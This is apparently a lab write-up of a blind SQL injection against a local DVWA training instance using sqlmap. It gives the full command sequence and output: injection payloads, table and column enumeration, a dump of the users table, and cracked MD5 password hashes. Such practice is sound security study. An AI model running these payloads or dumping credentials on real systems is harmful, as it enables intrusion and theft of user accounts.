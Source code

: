 # Recon

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --batch --dbs --cookie="PHPSESSID=s4t13jonrotdorlreln2grunmm; security=low"

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4268=4268 AND 'WjAI'='WjAI&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 4278 FROM (SELECT(SLEEP(5)))DVom) AND 'rftm'='rftm&Submit=Submit
```

# Tables

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --batch --dbs --cookie="PHPSESSID=s4t13jonrotdorlreln2grunmm; security=low" -D dvwa --tables

```
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

# Columns

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --batch --dbs --cookie="PHPSESSID=s4t13jonrotdorlreln2grunmm; security=low" -D dvwa -T users --columns

```
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
```

# Dump

> sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --batch --dbs --cookie="PHPSESSID=s4t13jonrotdorlreln2grunmm; security=low" -D dvwa -T users --dump

## Cracked passwords

```
[22:11:52] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'                             
[22:11:53] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'                            
[22:11:57] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                           
[22:12:00] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
```

```
Database: dvwa                                                                                                      
Table: users
[5 entries]
+---------+---------+----------------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                           | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+----------------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2022-07-22 21:19:41 | 0            |
| 1       | admin   | /dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2022-07-22 21:19:41 | 0            |
| 2       | gordonb | /dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2022-07-22 21:19:41 | 0            |
| 4       | pablo   | /dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2022-07-22 21:19:41 | 0            |
| 5       | smithy  | /dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2022-07-22 21:19:41 | 0            |
+---------+---------+----------------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
```